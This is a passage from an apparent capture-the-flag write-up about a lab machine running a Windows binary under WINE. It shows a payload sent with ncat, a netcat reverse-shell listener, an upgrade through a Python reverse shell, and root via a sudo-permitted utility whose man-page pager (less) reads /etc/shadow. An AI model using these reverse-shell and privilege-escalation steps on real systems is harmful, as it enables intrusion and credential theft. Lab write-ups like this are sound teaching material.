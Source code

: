 Being ready I logged into the machine and, in another console I started a `netcat` listener.
Then, I sent the payload to the console.

{% highlight bash %}
» ncat 192.168.150.128 9999 < payload

# And on another console...
» ncat -nvlp 9090
Connection from 192.168.150.128 port 9090 [tcp/*] accepted
CMD Version 1.4.1

Z:\home\puck>
{% endhighlight %}

Well, this is surely a bit strange.
It's a Linux machine running, through WINE, an emulated Windows executable through WINE.
As a result, I was getting a DOS terminal inside a Linux box!

Anyway, getting a "real" shell was easy.
After moving to the `/bin` directory I could execute files in that folder as if they were in the path.
So I executed `bash` and, for my own working pleasure, I launched a Python reverse shell (again) toward my machine, getting a full tty-equipped shell.

## Privilege escalation

As usual, I started with all the privilege escalation tricks I know.
Specifically, the `sudo -l` output was interesting:

{% highlight bash %}
$ sudo -l
sudo -l
$ Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
{% endhighlight %}

So was able to execute that file as super user.
Interesting.

{% highlight bash %}
$ sudo /home/anansi/bin/anansi_util
sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
{% endhighlight %}

After a few tries, something stroke through my mind.
The "manual" command was obviously displaying the manual piping it through `less`, with `root` privileges.
I dug through the `less` manual and discovered that I could navigate through any file I wanted with the `:e FILE` command.
As a result, I displayed the content of the `/etc/shadow` file.
